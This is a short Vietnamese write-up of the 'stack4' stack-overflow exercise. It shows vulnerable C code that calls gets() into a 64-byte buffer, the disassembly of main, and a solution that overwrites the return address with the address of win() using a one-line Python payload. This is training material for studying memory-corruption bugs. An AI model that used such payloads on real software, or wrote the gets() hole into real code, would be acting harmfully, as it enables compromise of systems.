


# stack4

## Description

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

Bài này cũng không có gì khó. Ghi địa chỉ hàm win vào EIP là được.


Mình sử dụng pwndbg + cyclic để tìm ra padding, hoặc bạn có thể từ hàm main để tính.

```ASM (intel syntax)
   0x08048408 <+0>:     push   ebp
   0x08048409 <+1>:     mov    ebp,esp
   0x0804840b <+3>:     and    esp,0xfffffff0
   0x0804840e <+6>:     sub    esp,0x50
   0x08048411 <+9>:     lea    eax,[esp+0x10]
   0x08048415 <+13>:    mov    DWORD PTR [esp],eax
   0x08048418 <+16>:    call   0x804830c <gets@plt>
   0x0804841d <+21>:    leave  
   0x0804841e <+22>:    ret
```

## Solution

Dùng Gdb hoặc objdump ta có địa chỉ của hàm win: `0x080483f4`

payload:`python -c 'print "a"*76 +"\xf4\x83\x04\x08"' | ./stack4`


